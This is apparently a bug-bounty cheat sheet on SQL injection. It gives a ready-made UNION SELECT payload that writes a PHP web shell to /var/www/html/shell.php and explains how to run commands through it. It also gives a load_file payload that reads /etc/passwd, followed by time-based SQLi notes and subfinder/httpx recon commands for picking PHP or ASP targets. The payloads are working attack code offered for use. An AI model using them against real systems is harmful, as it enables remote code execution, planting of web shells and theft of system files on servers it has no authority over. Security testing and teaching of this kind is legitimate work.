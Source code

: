 

---
## Quick SQLi To RCE Method:

The following is an example of an SQL injection payload that can be used to upload a PHP shell to the server:

```sql
' UNION SELECT '<?php system($_GET['cmd']); ?>' INTO OUTFILE '/var/www/html/shell.php' #
```

This payload injects a new SELECT statement into the original SQL query and writes the PHP code to a file called “shell.php” in the “/var/www/html/” directory on the server. The attacker can then access the PHP shell by navigating to “[http://target-server/shell.php?cmd=[command]](http://target-server/shell.php?cmd=%5Bcommand%5D)" in a web browser.

Example 2: Reading the **“etc/passwd” file:**

The following is an example of an SQL injection payload that can be used to read the “/etc/passwd” file on the server:

```sql
' UNION SELECT load_file('/etc/passwd') #
```

This payload injects a new SELECT statement into the original SQL query and loads the contents of the `“/etc/passwd"` file into the result set.


---

# Time Based SQL Injection Bug Hunting Methodology💉

## We need to find out the database used by the web app.

![](https://miro.medium.com/v2/resize:fit:402/1*wEfUahta9DkFVa06W5yxCQ.png)

Burpsuite Repeater Tab: Response time from the server

![](https://miro.medium.com/v2/resize:fit:700/1*Q-mwjJBDlH_6oSz2bHM84w.png)

![](https://miro.medium.com/v2/resize:fit:237/1*vZjt0GhQ2z0-JncSX_oISA.png)

You are lucky if you find it is running on PHP + MySQL 🤑. Must try SQLi

Alternatively,

```js
subfinder -d domain.com -all -recursive > subs_domain.com.txt  
cat subs_domain.com.txt | httpx -td -title -sc -ip > httpx_domain.com.txt  
cat httpx_domain.com.txt | awk '{print $1}' > live_subs_domain.com.txt

cat live_subs_domain.com.txt | grep -i php  
cat live_subs_domain.com.txt | grep -i asp  
  
  
cat live_subs_domain.com.txt | grep -i apache  
```
